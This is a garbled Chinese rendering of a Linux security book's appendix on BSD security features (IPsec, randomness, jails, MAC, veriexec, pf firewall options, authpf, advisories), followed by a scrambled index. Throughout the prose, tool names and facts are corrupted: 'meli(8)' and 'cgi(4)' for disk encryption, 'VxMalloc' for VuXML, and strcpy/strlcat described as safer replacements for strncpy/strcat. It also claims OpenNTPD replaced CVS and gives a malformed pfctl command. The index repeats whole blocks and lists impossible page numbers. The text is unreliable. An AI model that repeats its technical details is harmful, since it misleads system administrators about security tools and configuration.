- 用户统计，包括调用的命令数、总 CPU 时间和 I/O 操作总数

这些统计数据可以确定系统的基准并监控行为异常。

## IPsec

IPsec 用于创建 VPN 以在数据跨越不受保护的网络时进行加密。在 BSD 中，`IPsec(4)` 提供了创建 IPsec 头部所需的内核支持。然而，管理密钥交换不需要内核支持；这是通过实现 ISAKMP 协议的程序实现的。对于密钥管理，FreeBSD 需要第三方应用程序，例如：`racoon(8)`；NetBSD 和 OpenBSD 使用一个名为 `isakmpd(8)` 的自定义 ISAKMP 守护进程。

OpenBSD 还有一个用于管理 IPsec 隧道所有方面的工具 `IPsecctl(8)`。OpenBSD 4.0 大极地改进了 IPsec 配置，其 `IPsec.conf(5)` 提供了几个运行的 VPN 配置示例。

## 随机性

在为 VPN 或数字证书生成密钥时，提供随机数据（或熵）的能力非常重要，例如为你运行 SSL 的 Apache Web 服务器生成密钥。密钥和证书需要随机 `seed` 以确保新密钥或证书在数学上与之前的密钥或证书不同。

每个 BSD 系统都具有根据需要不断收集随机数据的能力。FreeBSD 和 OpenBSD 使用 `random(4)`，而 NetBSD 使用 `rnd(4)`。FreeBSD 的实现提供了多个 MIB，并基于 Schneier 的 Yarrow 算法。Bruce 也是 Blowfish 算法的作者。

## chroot(8)

所有的 BSD 都提供了 `chroot(8)`，允许管理员将 Web 服务器或邮件服务器等服务放入沙箱环境中。一旦服务被 `chroot`，它就无法访问其 chroot 之外的目录。如果该服务被利用，损害将限制在 chroot 范围内，而不应影响操作系统的其他部分或其他运行的服务。

# FREEBSD

在本节中，我们将关注 FreeBSD 操作系统中的额外的安全功能。

通过 TrustedBSD (http://www.trustedbsd.org) 项目，多个安全扩展被整合到 FreeBSD 中。TrustedBSD 项目的持续目标是创建模块和框架，帮助 FreeBSD 部署符合信息技术安全评估通用标准 (http://www.commoncriteriaportal.org)。接下来将讨论其中一些安全增强措施。

## ACLs

在传统的 UNIX 权限中，组被用于配置文件或目录的共享访问。然而，要为指定哪些用户访问哪些文件提供精细粒度的控制是很困难的。访问控制列表 (ACLs) 允许你使用 `setfacl(1)` 和 `getfacl(1)` 对单个文件提供精细的控制。ACL 从 FreeBSD 5.0 版本开始已可用。

## MAC 策略

与 SELinux 类似，FreeBSD 的强制访问控制 (MAC) 框架提供了一系列策略。`mac(4)` 描述了可用策略；其中某些策略（如 Biba 和 MLS）是复杂的，实施需要高级知识。实施此策略后，普通用户只能看到自己的进程；超级用户仍然能够看到所有进程。FreeBSD 手册包含了更多关于 MAC 的信息：http://www.freebsd.org/doc/en_US/books/mac.html。

## OpenBSM

基础安全模块 BSM 由由 Sun 开发，被认为是审计的标准。OpenBSM 是 BSM 的开源实现，自 FreeBSD 6.2 起可用。OpenBSM 实现对不同类型的事件进行审计，例如：

- 登录
- 配置更改
- 文件和网络访问

OpenBSD 与 Solaris 和 Mac OS 的 BSM 实现兼容。

## OpenPAM

可插认证模块 (PAM) 允许实现除提示用户名和密码之外的身份验证方法。FreeBSD 4.x 使用 Linux 版本的 PAM，但从 5.0 开始，使用了 OpenPAM (http://trac.des.no/openpam)。OpenPAM 支持的某些替代身份验证方法包括：

- Kerberos
- RADIUS
- TACACS+
- 全处使用一次性密码 (OPIE)

## jail(8)

虽然 chroot 用于监禁进程，但 FreeBSD jail 用于划分操作系统。Jail 提供了一个完整的操作系统环境，可以在其中其中安装、配置并允许执行应用程序。然而，在该 jail 内部发生的任何事情都不会影响操作系统或运行在该主机上的任何其他 jail。ISP 喜欢使用 jail，因为它们可以为客户提供与其他客户的环境安全隔离的虚拟环境。

> 注意 syscall 项目 (http://sysjail.bsd.lv/) 为 OpenBSD 和 NetBSD 提供了一个 jail 子系统。

## Vulner

即使是最安全的操作系统也有盔甲漏洞：第三方应用程序。运行在系统上的应用程序数量可能从几个到数百个不等。

# Hacking Exposed Linux：Linux 安全秘籍与解决方案

每个应用程序都有不同的开发团队，对安全事件的响应速度（以补丁和公告的形式呈现）可能差异巨大。管理员该如何在不订阅几十个安全邮件列表的情况下，对可能的安全事件保持警觉？

FreeBSD 项目创建了漏洞暴露标记语言（VuXML），用于记录 FreeBSD 端口集合中的安全问题——该集合包含了近近 16,000 个第三方应用程序。

如图 C-3 所示，现有的漏洞已被标记，并可以在 http://www.vuxml.org/freebsd/ 在线查看。FreeBSD 还在其端口集合中使用了 VuXML，其安全公告可以在 http://www.vuxml.org/openbsd 处找到。

一旦某个应用程序存在已知的安全漏洞，其软件包将从 FreeBSD ftp 镜像站中移除，且该端口的 Makefile 将被标记为 FORBIDDEN（禁止）。如果你尝试以此方式构建，将收到一个包含指向安全公告链接的错误。覆盖此错误并强制构建端口的唯一方法是手动删除 FORBIDDEN 行。

### portaudit(1)

如果你的操作系统能告诉你安装的软件中是否存在已知的安全漏洞，那不是太好了吗？在 FreeBSD 系统上，通过输入 `pkg_add -r portaudit` 即可轻松实现这一点。该脚本会将当前的 VuXML 条目与系统上安装的软件进行比较，并报告任何已安装软件是否存在未解决的漏洞。报告包含指向公告的超链接，以便管理员评估该漏洞对系统构成的风险。

图 C-3 FreeBSD VuXML Web 界面，按 CVE 名称进行过滤

### gbde(4)

随 FreeBSD 5.0 引入的 GEOM 框架提供了一个磁盘抽象层，允许创建与磁盘交互的模块。这包括创建各种安全模块，例如基于 GEOM 的磁盘加密 (`gbde(4)`)。`gbde` 设计用于保护“冷”存储设备上的数据，免受动机极强的攻击者的侵害。例如，如果攻击者偷取了受保护的磁盘且不知道密码，他必须通过四层加密屏障才能访问数据。然而，`gbde` 无法对针对已连接并挂载的文件系统的网络攻击提供任何保护。`gbde` 的示例部分提供了初始化、攻击和卸载加密设备的命令，以及如何销毁所有主密钥副本。

### meli(8)

`meli(8)` 是另一个用于磁盘加密的 GEOM 模块，于 FreeBSD 5.0 中引入。相比 `gbde`，它具有多个优势，包括：

- 加密根分区的能力
- 支持多种加密算法
- 支持多个独立密钥
- 支持一次性密钥

`meli` 的示例部分展示了多种加密场景所需的命令。

# NETBSD

本节介绍了 NetBSD 操作系统特有的安全特性。NetBSD 4.0 引入了许多安全增强功能，可以在 NetBSD 内核开发人员 Elad Efrat 编写的一篇文章（http://www.securityfocus.com/infocus/1878）中找到对这些功能的详细描述。

## kauth(9)

`kauth(9)` 引入于 NetBSD 4.0，旨在提供一个安全策略框架。该框架允许创建可以插入内核的安全模块。可能的安全模块可以提供如 ACL（访问控制列表）支持和 MAC（强制访问控制）策略等安全增强。该框架还将删除硬编码“超级用户完全访问系统”概念的引用，从而能够创建限制超级用户权限的策略。

为了帮助开发者创建安全模块，`secmodel(9)` 中提供了一套开发指南。

## veriexec(4)

管理员如何知道系统是否被 rootkit（ rootget）了？旧的 rootkit 试图通过删除日志条目并替换 `ls` 和 `ps` 等二进制文件来隐藏其文件和进程，而较新的 rootkit 则尝试通过通过设备驱动程序或内核加载模块加载代码来修改内核。在大多数操作系统上，接收此类更改的唯一方法是安装并配置如 Tripwire 类的完整性检查程序，并设置计划定期检查文件校验和数据库。在 BSD 系统上，`mtree(8)` 描述了如何使用此内置工具创建自定义的文件完整性检查系统。

`veriexec(4)` NetBSD 更进了一步，它提供了一种基于内核的功能，可以在运行或读取执行文件或文件之前验证其完整性。与其他需要你手动检查更改的完整性检查系统不同，`veriexec(4)` 会立即通知管理员，并提供对入侵者的实时通知。传统上，使用 `veriexecctl(8)` 加载脚本生成的签名文件。在 NetBSD 4.0 中，将使用 `veriexecgen(8)` 生成指纹数据库，并可以使用 `veriexecctl(8)` 将其加载到内核内存。

## pw_policy(3)

NetBSD 4.0 还引入了密码策略强制功能。这允许管理员强制执行密码长度、大小写混合、数字个数、标点符号和字符类，以及用户在不同字符类之间切换的频率。策略本身设置在 `passwd.conf(5)` 中。

## lassoc(9)

该框架引入于 NetBSD 4.0，允许内核关联独立于文件系统的文件属性。这将允许创建如 ACL 等安全属性，这会对性能产生负面影响。

## Audit-Packages（审计包）

FreeBSD 和 OpenBSD 使用 VxMalloc 管理端口中的漏洞，而 NetBSD 则维护着自己的漏洞列表。该列表可以通过 ftp://NetBSD.org/pub/NetBSD/packages/distfiles/ 访问。正如可以在 FreeBSD 系统上安装 auditd，可以在 NetBSD 系统上安装 audit-packages。该脚本会将漏洞列表与安装的软件进行对比，并告知影响系统的漏洞。

## cgd(4)

`cgi(4)`允许使用 AES、Blowfish 或 3DES 进行磁盘加密，旨在加密非根文件系统。它还可以用于加密 CD 和 DVD，并使用一次性密钥加密交换分区和临时文件。

## clockctl(4)

`ntpd(8)` 是一个以超级用户权限运行的臃肿进程示例，这在安全环境中是有问题的。特别是考虑到准确的网络时间对于 `kerberos(8)` 认证系统是必不可少的。`clockctl(4)` 子系统允许 NTP 以非权限账户运行，减少了 NTPD 漏洞的影响。

> OpenBSD 使用了不同的方法——他们重写了一个不那么臃肿的 NTP 版本称为 OpenTPD。

# OpenBSD

OpenBSD 被誉为世界上最安全的操作系统之一。OpenBSD 开发者在设计和发布过程中整合了许多安全特性。例如，C 函数 `strcpy(3)` 和 `strlcat(3)` (http://www.openbsd.org/papers/strcpy-paper.ps) 被编写为 `strncpy(3)` 和 `strcat()` 更安全的替代品。

Wikipedia 为若干安全特性提供了良好的概述和额外参考：http://en.wikipedia.org/wiki/OpenBSD_security_features。OpenBSD 首席开发者 De Raadt 有了一场关于漏洞缓解技术的演讲，地址为：http://www.openbsd.org/papers/open05-deraadt。

OpenBSD 项目还从头重写了许多进程，特别是那些代码臃肿或有漏洞历史的进程。这包括用 OpenNTPD 替换 CVS。随着每个版本的发布，越来越多的进程被重写以支持权限分离——详情请参考对应版本的升级指南。本节介绍了 OpenBSD 特有的安全特性。

## ProPolice

ProPolice 是 IBM 开发的 gcc 补丁集，旨在保护编译后的应用程序免受缓冲区溢出的攻击。它也被称为栈破坏保护 (SSP)。OpenBSD 项目自 2002 年开始使用 ProPolice，并提供了第一个

# 攻破 Linux：Linux 安全秘密与解决方案

ProPolice 的真实规模测试。它负责发现（并导致修复）OpenBSD 操作系统随附的许多程序中的大量漏洞。
ProPolice 现在已集成到 gcc 4.1 中；自 2006 年 7 月以来，该版本即为 NetBSD 项目使用的 gcc 版本。针对 FreeBSD 的补丁可以在 http://tataz.chile.org/~tataz/FreeBSD/SSP/README.txt 获得。

## W^X

W^X 是 Write X（可写不可执行）的缩写，是一种技术，它使得进程内存地址空间中的任何页面可以是可写的，也可以是可执行的，但不能同时具备这两个特性。这防止了利用程序将它们想要执行的代码写入到可以执行的内存中。W^X 已在 OpenBSD 3.4 中利用。Marc Espie 在采访（http://www.onlamp.com/pt/a/4676）中提供了描述。NetBSD 使用非可执行栈和堆提供了类似的功能（http://netbsd.org/Documentation/kernel/non-exec.html）。

## systrace

`systrace(1)` 由 OpenBSD 项目开发，并于 NetBSD 2.0 版本引入。它用于通过对系统调用执行策略来监控和控制应用程序对操作系统的访问。它可以保护系统免受缓冲区溢出攻击。特权提升允许移除 SUID 和 SGID 二进制文件。

## 加密交换

OpenBSD 支持对交换分区进行 Blowfish 加密。交换空间被分成许多分配了自己的加密密钥的小区域。一旦数据不再需要，OpenBSD 就会安全地删除它。此功能自 OpenBSD 3.9 以来默认启用。

## pf(4) 防火墙功能

`pf(4)` 防火墙源于 OpenBSD 项目，已集成到 FreeBSD 和 NetBSD 中。`pf` 是基于内核的，这意味着它非常快；是一个功能丰富的状态防火墙，在速度和功能上可以与商业防火墙相竞争。其 FAQ（http://www.openbsd.org/faq/pf）详细介绍了许多功能并提供了配置示例。

## 状态表的直接操作

管理员可以使用 `pfctl(8)` 工具直接与 pf 交互。除了停止和启动防火墙、查看当前加载的规则集以及 NAT 表之外，`pfctl` 还允许动态添加规则。例如，要立即删除来自攻击主机的所有状态条目，只需指定该主机的 IP 地址：

```
pfctl -k ipsync
```


# CARP(4) 和 pfsync(4)

冗余（有时称为高可用性）始终是一个棘手问题。如果路由器等重要设备不可用，目标是让另一个设备自动接管而不丢失任何现有网络连接。对于状态防火墙来说，情况更加棘手，因为新防火墙需要状态表的最新副本，以便感知所有连接的状态。结果，为商业防火墙提供冗余通常需要昂贵的许可、复杂的配置和大量的测试。OpenBSD 项目开发的共同地址解析协议 `CARP` 是开源免费的，旨在替代热备路由器协议 `HSRP` 和虚拟路由器冗余协议 `VRRP` 等专利方案。`pfsync(4)` 使用 `CARP` 在一对防火墙之间提供自动故障转移。如果一个防火墙不可用，第二个防火墙会自动接管而不会丢失任何状态。尽管 `pfsync` 保持了状态表的同步，但它是通过发送明文多播包实现的。由于这个原因，两个防火墙应该通过交叉线连接，或者更新应该通过 IP 隧道进行。

# ALTQ(9)

替代队列 `ALTQ` 用于提供服务质量 `QoS`，并集成到 `pf` 防火墙中。通过 `ALTQ`，你可以创建限制特定服务或用户可用带宽的带宽策略。`ALTQ` 支持多种队列算法，包括基于类的队列 `CBQ`、随机早期检测 `RED`、RED 入/出 `RIO`、分层公平服务曲线 `HSFC` 和优先级队列 `PRIQ`。

# 状态跟踪选项

`pf` 包含用于 TCP 规则的选项，可以限制端口扫描、自动化 rootkit 和密码破解尝试的影响。这些状态跟踪选项还可以减少日志事件的数量，使日志更易读。其中一些包括：

- `max` 限制添加到状态表的状态条目数量；这可以减少 SYN 洪水攻击耗尽系统资源的风险。
- `max-src-nodes` 限制同时创建状态的 IP 地址数量；这可以减少 DDoS 攻击的风险。
- `max-src-states` 限制每个源 IP 地址可以创建并发状态条目数量；这可以减少密码破解程序的风险。
- `max-src-conn` 限制单个主机完成三次握手的最大并发 TCP 连接数。
- `max-src-conn-rate` / `interval` 限制新连接的速率。

当状态表满时，`pf` 将丢弃新连接，直到空间可用。为了防止这种情况，你可以使用上述选项来限制状态数量。例如，`max-state` 选项可以限制状态表中的状态总数。

# 攻破 Linux：Linux 安全秘密与解决方案

# 状态调制

此功能对 TCP 数据包随机初始化序列号 `ISN`。这防止了 ISN 预测。

# SYN 代理

通过在规则中使用 `synproxy` 关键字，你可以轻松利用 `pf` 的 SYN 代理功能。这意味着你的服务器只感知已完成的连接，并免受 SYN 洪水攻击。

# 数据包规范化

`pf` 提供了 `scrub` 关键字，提供数据包规范化。这可以防御某些类型的攻击。例如，某些攻击使用无法正确重组的碎片；scrubbing 还可以强制最小 TTL、随机 IP ID 并将 TCP 时间戳随机化。

# 操作系统指纹

操作系统指纹 `OSFP` 使用 `/etc/pf.os` 数据库来被动检测远程操作系统的类型。这意味着 TCP 规则可以设计为拦截来自特定操作系统的流量。此示例规则将拦截运行以下系统的的数据包：

```
block in $ext_if from any os "Windows 2000"
```

记住，新的服务包和补丁级别可能会操作系统的指纹；此外，这种类型的规则可能无法捕造伪包。

# authpf

`authpf` 要求用户在通过之前进行验证。要激活此功能，将用户的 shell 设置为 `/usr/bin/authpf` 并指示用户在需要网络连接时 ssh 到网关。一旦用户通过验证，`authpf` 将用户的自定义规则插入规则集。换句话说，`authpf` 能够验证用户并基于用户执行规则；这些功能通常仅商品产品可用。

当用户注销或 SSH 会话断开时，`authpf` 会删除用户规则。每次验证都会记录用户名、IP 地址以及连接时间，从而更容易确定谁登录过。`authpf` 可以为无线网络提供额外的安全措施，可以在 FAQ 中找到示例配置。

# 安全公告

安全对 BSD 项目至关重要，每个项目在其网站上维护一个安全页面，包含公告、安全邮件列表链接、报告安全事件的说明以及对其安全团队的描述。每个项目的安全页面位于：

- FreeBSD http://www.freebsd.org/security/
- NetBSD http://www.netbsd.org/security/
- OpenBSD http://www.openbsd.org/security.html

FreeBSD 和 NetBSD 的公告格式相似，每个公告包含以下部分：

- 主题
- 受影响的版本
- 在哪些版本修复
- 问题描述
- 影响/技术细节

# 攻防 Linux Linux：Linux 安全秘密与解决方案

- 解决方案与规避方法
- 参考文献/更多信息

公告包含了如何修补系统以及从哪里下载补丁的完整说明。为了增加额外保护，每份公告都由安全人员的 PGP 密钥签名，并包含了验证密钥的说明。

# 额外的 BSD 资源

BSD 的文档非常详尽，大多数文档资源可以随操作系统一起安装，也可以在线免费访问。

# 在线 man Pages

BSD 的 man 页（手册是无与伦比的，提供了足够的配置示例来帮助你开始新的命令或概念。在线 man 页允许你指定发布版本；当在你需要确定某个命令在旧版本中是否可用，或者当你想要跟踪版本之间的功能变化时，这非常有帮助。可以在此处找到在线版本：

- FreeBSD http://www.freebsd.org/cgi/man-cgi
- NetBSD http://netbsd.gw.com/cgi-bin/man-cgi
- OpenBSD http://www.openbsd.org/cgi-bin/man

图 4 显示了 NetBSD 在线 man 页的界面。

# 在线文档

每个 BSD 项目都提供了全面的指南和常见问题解答（FAQ），描述并为操作系统可用功能提供了配置示例。当你需要“操作指南”时，请考虑你的第一个资源：

- FreeBSD Handbook http://www.freebsd.org/doc/en_US.ISO8859-1/books/handbook/
- FreeBSD FAQ http://www.freebsd.org/doc/en_US.ISO8859-1/books/faq/
- NetBSD Guide http://www.netbsd.org/guide/en/
- NetBSD FAQ http://www.netbsd.org/Documentation/#documentation-howtos
- OpenBSD FAQ http://www.openbsd.org/faq/index.html

# 附录 C：BSD

图 C-4 NetBSD 在线 man 页

# 书

还有几本专注于 BSD 和安全的书籍可以购买：

- 《Mastering FreeBSD and OpenBSD Security》，Yanek Korff, Paco Hope 和 Bruce Potter 著（O'Reilly, 2004）
- 《Building Firewalls with OpenBSD and PF》，Jacek Artymiak 著（2003）
- 《Secure Architectures with OpenBSD》，Brandon Palmer 和 Jose Nazario 著（Addison-Wesley, 2004）
- 《BSD Hacks》，Dru Lavigne 著（O'Reilly, 2004）

# 索引

以下内容为原文索引部分，已保留核心条目并对命令、路径、变量名等进行反引号标注，段落空行已优化。

# A

抽象解释 `Abstract Interpretation`
基于其的分析工具，518–519
开发，503
更多参考文献，521
也见访问控制模型；本地访问
控制；物理访问
控制台，44–52
安全与，9–10

访问控制模型 `access control models`
未经授权的基于信任的系统，342
`DAC`，70, 71
`MAC`，70, 71–72
`POSIX ACLs`，526
`RBAC`，70–72
类型，70–73

`ACK`（确认）帧，241
声学，攻击，329–330
`md255`, 110
115
`Aircrack-ng`, 264
`Airdump-ng`, 262–263, 284
`Aireplay-ng`, 264
`Airmon`, 268
`AJAX` 骇客，401–404

报警 `alarm`
报警器拨号，136–137
规避，36
充分利用，37
用于形式化编码的代数语言，501
`ALTQ`（替代查询），585
`Amap`（替代映射器），371
幅度 `amplitude`
关于，227
衰减与，228–229

天线 `antennas`
添加到蓝牙适配器中，284
制作天线，232
由 CRT 创建，324
增强 RFID 2.4 信号接收，229–231
使用外部接头改造无线网卡 `WNIC`，237
`RFID` 询问器，300
特雷门琴 `theremin`，297

反冲突系统 `anti-collision systems`，306
`Apache` 服务器
去中心化配置，384
最小化来自信息的泄露，382–385
防止来自符号链接的攻击，383
防止糟糕的错误处理，375, 384
使用 `ModSecurity`，378–379
配置错误导致的漏洞与预防，353–355

`AppArmor`，61–62
应用攻击，353–355
安全指南，355
可信计算 `Trusted Computing` 和，353
类型以及应用攻击；Web 应用程序骇客
关于软件，299
阻碍针对可信计算的攻击，343
用于可信计算，355–358, 359–361
架构 `architecture`
挑战/响应，444
`HTTP` 请求走私与 Web，426–427
`TPM` 的原型设计，344–345
`X` 引用的结构，255
`TPM` 与信任根，338

`SSS`，356–357
`ARP` 欺骗攻击，413–414, 415
`AS/400` 横幅 `banners`，155–156
`Astrie`，358
异步 JavaScript 和 XML `AJAX` 骇客，
带有 `MadWiFi` 的攻击，220–221
攻击面 `attack surface`，16
攻击向量 `attack vectors`，也包括意外数据向量
定义，8
分类，343
acks，也是 DoS 攻击；欺骗；防御，
声学，329–330
使用 VoIP 加密，195–196
应用，353–355
架构缺陷与内部网络，100–101
`ARP` 欺骗，413–414, 15
591

# 攻防 Linux：Linux 安全秘密与解决方案

横幅获取 `banner grabbing`，94, 138
计费绕过，203–204
启动，348
暴力破解，466–467, 534
总线监听 `bus snooping`，345
通过隧道绕过防火墙，110
针对 VoIP 的拦截，202–203
VoIP 类型，182–185
规避报警，36
克隆，308–309
损害额外服务，103
取消身份验证/关联，245
破坏系统完整性，35
由内核检测，272–273
解密，564
`DNS`，471
反冲突 DNS，306
对蓝牙设备的监听，290
电子邮件欺骗，407–408
实体范围 `entity span`，398–399
越狱 `escaping`，79
利用内存中的数据，84
额外供应商，136
伪造蓝牙实体，289
文件权限及属性，63
关于蓝牙的信息，291
破解密码，80–81
本地攻击 `hacking locals`，192
骇客攻击 带有芯片组和驱动的无线网络攻击，216–224
硬件、驱动以及模块，57–58
带有根的管理，113
`IT` 管理规则，133–134
针对 `BGP` 的攻击，307
大型机规则，134
媒体监听，209–210
媒体注入与操纵，210–211
媒体闪存攻击，345–346
网络漏洞，99–101
网络可见性及，90–94
钓鱼，409–411, 475–476
功耗，326–327
防止 STN 洪水，98
权限提升，35–56
注册劫持，201–202
重放，310
`RF` DoS，225–226, 227–228, 267–268
无线 RF 频谱分析，238–240
`RFID`，297
`RFID` 信号干扰，305–306
`RFID` 破解器和代理，133–134
根，用于
无线指纹识别，254
无线帧注入器，253
无线模糊测试器，254
无线 MITM 攻击，253
编写自定义攻击工具，256–260

衰减 `attenuation`
定义，226
高度降低，228–229
引力，338
注意标识密钥 `AIKs`，337
`NetBSD` 审计包 `audit packages`，582–583
审计 `auditing`。也见无线基础设施攻击
组装基于 Linux 工具，252–260
防御，251–252
用于 `LiveKD`，255–256
VoIP 系统安全，188
`WEP/WPA-PSK` 破解器，253
无线破解器，257–278
无线指纹识别，254
无线帧注入器，253
无线模糊测试器，254
无线 MITM 攻击，253
编写自定义攻击工具，256–260
内存闪存攻击及，346
执行顺序，349–353

认证启动 `authenticated boot`
关于，16–17
保护，18–19
针对功能，576
配置后端服务器，270–271
强制执行，17
方法，
`RFID` 标签，301
拦截 VoIP，202–203
过程，17
`SAFER` 算法，289
保护媒体流，211
可信计算，341
使用 VoIP，189, 203, 204
授权
Web 服务，400
使用可信计算，341
自动化扫描技术，536
自动化系统管理，550–552
意识 `awareness`
公理，501
`AXP/OpenVMS` 机器

# B

后门 `backdoor`
`BIOS` 密码，46–48
后门，111–113
关于，111
检测与缓解，111–113
通过 `TCP/IP` 协议访问，110
用于隐藏后门的根，113
后端服务器
配置，270–271
注册规则，133–134
备份，310
横幅获取 `banner grabbing`，94, 138
计费绕过，203–204
启动，348
暴力破解，466–467, 534
总线监听 `bus snooping`，345
通过隧道绕过防火墙，110
针对 VoIP 的拦截，202–203
VoIP 类型，182–185
规避报警，36
克隆，308–309
损害额外服务，103
取消身份验证/关联，245
破坏系统完整性，35
由内核检测，272–273
解密，564
`DNS`，471
反冲突 DNS，306
对蓝牙设备的监听，290
电子邮件欺骗，407–408
实体范围 `entity span`，398–399
越狱 `escaping`，79
利用内存中的数据，84
额外供应商，136
伪造蓝牙实体，289
文件权限及属性，63
关于蓝牙的信息，291
破解密码，80–81
本地攻击 `hacking locals`，192
骇客攻击 带有芯片组和驱动的无线网络攻击，216–224
硬件、驱动以及模块，57–58
带有根的管理，113
`IT` 管理规则，133–134
针对 `BGP` 的攻击，307
大型机规则，134
媒体监听，209–210
媒体注入与操纵，210–211
媒体闪存攻击，345–346
网络漏洞，99–101
网络可见性及，90–94

# Linux 攻防之路：Linux 安全秘密与解决方案

- 窃听设备, 298
- 嗅探攻击, 345
- 通道, 7
- `chflags(1)` 命令, 575, 576
- 子进程/父进程权限, 78
- 芯片组, 219–225

## C

- C 分析工具, 517–521。另见基于抽象解释的静态分析，518–519
- 属性检查, 520
- 使用 Hoare 逻辑, 519

- 带有 MadWiFi 的雅典, 220–221
- 防御攻击者, 224–225
- Intel Client/IPW2000 芯片组, 222, 224, 254
- 链接至, 223–224

- C 代码。关于 C 的可靠性
- 缓存投毒
- 对名服务的攻击, 478–479
- 防止 ARP, 415
- 使用缓存, 279–481
- Caducus, 517, 519
- Prism 和 Prism54, 221, 224
- 建议的 TPM 芯片组重新设计, 344–343
- Linux, 222–254
- 使用 Linux 原生, 224–225
- 使用 SoftMac 和 FullMac 代码, 222
- 无线
- 使用线客户端审计, 254
- `chroot(8)`, 377–578
- `chroot`, 73–80
- 关于, 73

# 索引

## 595

- 计算机。另见芯片组；物理访问
- 检查启动过程的, 351
- 利用内存中的数据, 84
- 制造商后门, 47–48
- 破解...的控制, 322
- 确保服务器机密性, 399
- 信息虚拟化，以及, 183
- 隐私, 23–25
- 可信计算，以及 341
- 控制台访问, 44–52
- 绕过 BIOS 密码, 46–49
- 禁用 CD, 44
- 实现全磁盘或分区, 51–52, 53
- 使用 Linux, CD 窃取/更改, 44–46
- 使用磁盘器锁, 50
- 关于, 25
- 拒绝服务攻击和, 22–23
- Cookie 安全性, 418–439
- 正确性, 47
- 隐蔽通信, 107–121
- 后门, 111–113
- 连续性，以及 22
- CPAN `综合 Perl 存档`, 550–551
- 收集网络统计数据, 545–546
- 跨站请求, 411–413
- 跨站脚本, 389–392
- CRTM `信任测量根`, 347, 349
- CryptoAPI, 524–525
- 使用...保护攻击, 343
- 设置安全节点, 532–534
- 设置 PKI, 351

## CSMA/CA `载波侦听接入冲突规避`, 241

- DAA `直接身份认证`, 337
- DAC `直接访问控制`, 71
- 启用, 538–539
- 缓解...的, 61–62
- 移动到, 76–77
- 守护, 550, 415–416
- DAI `动态 ARP 检查`, 542
- 数据。另见不足的
- 从活动系统获取, 558–560
- 分析, 565–569
- 客户端 Web 验证, 394
- 加密在全磁盘或分区上, 51–52, 53
- 对于...的完整性, 335
- 维护完整性, 687–699
- 死亡后的, 559–552
- 恶意软件防护, 458–463
- 保护 Web 页面字段, 394
- 防止完整性, 83–85
- 对于 VoIP 系统的, 188
- 内存中的保护, 84–85
- 语音网络用于, 188
- 未授权的威胁系统, 342
- 防止 Web 应用攻击, 393–394

## 数据加密标准 `DES`, 300

- 数据库服务器, 512
- 阻止 Web 应用攻击, 394–395
- UDDI, 396

# Hacking Exposed: Linux Security & Solutions

# G
- 手持设备。 参见移动设备
- 硬盘
  - 加密及所有分区, 51, 53
  - 缓解使用, 330
- 加固
  - 保护保护, 50
  - Linux 发行版, 58–59
  - 网络架构, 101–102
  - 通过减少攻击面来加固系统, 104–106
  - 免费虚拟化, 82–83
- 声学攻击, 329–330
- 总线嗅探攻击, 345
- 内存闪刷, 345–346
- 获取, 229
- gandalf mux 横幅, 152
- 通用 RAS 码攻击, 132
- 黄金基线镜像
  - 检测备份, 111–113
  - 使用, 69–70
  - 在 rootkits 检测中使用, 116
- Google Hacking Database, 381
- 故障 `glitch`, 442–443
- 列表, 442–443
- 组帐户, 384

# H
- H.225 协议, 192
- H.245 协议, 192–193
- H.323 协议
  - 架构, 192–193
  - 示例说明, 192
- SIP 协议对比, 194–196
- 代表, 191
- VoIP 加密和, 213
- 破解。也包括审计；Web 应用破解；
- 有线/无线基础设施攻击
  - RF 信号, 227
  - 用于 web 应用枚举, 367–375
  - 通过无线网络驱动程序, 219–224
- AJAX, 401–404
- 本地密码, 80–81
- 配置错误的服务器, 380–385
- 被动剖析和情报侦查, 367–568, 579

# 索引 599

# I
- 输入输出设备。 参见蓝牙设备
- ICAO `国际民航`, 301–302
- IFF, 298–299
- IMA `成像架构`, 339
- 不可变文件, 68
- 入侵, 488
- 应急响应密钥, 273–274
- 应急响应计划, 370
- 赔偿
  - 关于, 19–25
  - 确保, 19–20
- 索引, 8
- 信息语言
  - 错误处理, 378–379
  - 最小化, 382–385
  - 配置错误的 web web 和攻击, 380–385
  - 通过注释中的, 379–380
  - 通过 DNS 服务器, 483–488
- 信息技术： 参见 IT
- 基础设施和 基础设施攻击；无线
  - 入口和入口过滤, 542–544
- INT, 350
- 输入验证攻击, 84, 307–308
- 调查, 323
- 不安全的 Cookie, 418–419
- 1验证不足, 385–395
  - 跨站, 389–392
  - HTTP 响应分割, 392–395
  - 防止, 392–395
- SQL 注入攻击, 385–388
- SMI 注入攻击, 389
- 集成业务数字网络。 参见 ISDN
- 完整性
  - 破坏系统, 35
  - 信息安全要求, 183
  - 本地访问控制数据, 68–70
  - 维护, 35–36
  - 测量数据, 335, 337–338

# 破解 Linux 攻：Linux 安全机密与解决方案

- 进程计数，以及 35–36
- 可信计算 `Trusted Computing`, 341
- Web 服务器, 399
- 完整性测量架构 `IMA`, 399
- 完整性测量, 335, 337–338
- Intel CentOS 客户端/驱动, 222, 224, 254
- 智能野战 `iWar`, 145–146
- 交互式控制, 22–23
- 攻击面，以及 16
- 身份认证, 16–29
- 案例研究，14–15
- 拒绝服务攻击，以及 22
- 赔偿责任，19–20
- 对齐问题，16
- 韧性，以及 26–28, 25
- 征服，20–21, 25
- 国际民用航空组织 `ICAO`, 301, 305–306
- 国际电信联盟标准化部门. ITU-T
- 互联网工程任务组 `ETF` 会话建立协议, 341
- 互联网到 X.25 网关, 175
- 询问器, 300
- 干预, 323
- 入侵检测机制. IDS; WIDS
- 逻辑的不变属性, 502
- C 语言中的常量, 507
- IP 地址. 还有 VoIP
- 允许从特定位置访问 Web, 353
- 检查用于节点设置的 IPv6 状态, 538
- IPv4 的可配置参数, 97
- 确定无线网络使用的范围, 266
- DNS 查询和动态, 474
- 的反向映射, 450–489
- IP 电话的系统安全指南, 196–197
- 使用 IPv6 地址, 475
- IPS, 108
- IPSec(4) 命令, 577
- IPTables, 99, 105
- IPTV, 93
- IPW2000, 222
- IDS `集成数字服务网络`
- 针对私有 X28 PADS 的对抗, 174–175
- ISBN BRI 和 ISBN PRI 服务, 129–130
- 覆盖文本, 127–128
- PSTN, 92
- 测试, 140
- ISO `国际标准组织` RFID, 497
- 标准, 304–305
- 同向性辐射, 229
- IT `信息技术`. 另见意识
- 培训安全指南
- 关于安全策略, 370
- IT 管理 RA5 禁用攻击, 133–134
- ITU-T `国际电信联盟标准化部门`
- DCC 访问索引, 164–173
- H.323, 191
- X.25 标准, 130
- iWar `智能野战`, 143–146
- ivivconfig 命令, 220, 221

### J
- jail(8), 579
- JSS Wrapper, 358
